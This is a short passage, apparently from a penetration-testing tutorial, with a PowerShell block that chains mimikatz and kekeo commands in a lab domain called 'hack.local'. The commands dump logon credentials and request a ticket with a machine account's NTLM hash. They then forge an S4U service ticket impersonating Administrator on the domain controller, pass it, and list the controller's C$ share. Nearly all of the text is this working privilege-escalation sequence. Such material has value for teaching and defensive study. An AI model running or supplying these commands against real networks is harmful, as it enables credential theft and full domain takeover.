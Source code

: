 ```powershell
# mimikatz get machine account NTLM Hash value
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Request a ticket
kekeo.exe "tgt::ask /user:WIN-WEB$ /domain:hack.local /NTLM:dd3c90bd9c09c393521d46fe8955e9f6" "exit"

# Tickets for applying for administrator permissions
kekeo.exe "tgs::s4u /tgt:TGT_WIN-WEB$@HACK.LOCAL_krbtgt~hack.local@HACK.LOCAL.kirbi /user:Administrator@hack.local /service:cifs/DC.hack.local" "exit"

# mimikatz
mimikatz.exe "kerberos::ptt TGS_Administrator@hack.local@HACK.LOCAL_cifs~DC.hack.local@HACK.LOCAL.kirbi" "exit"

# Visit
dir \\DC.hack.local\C$
```

![](./images/24.png#pic_center)
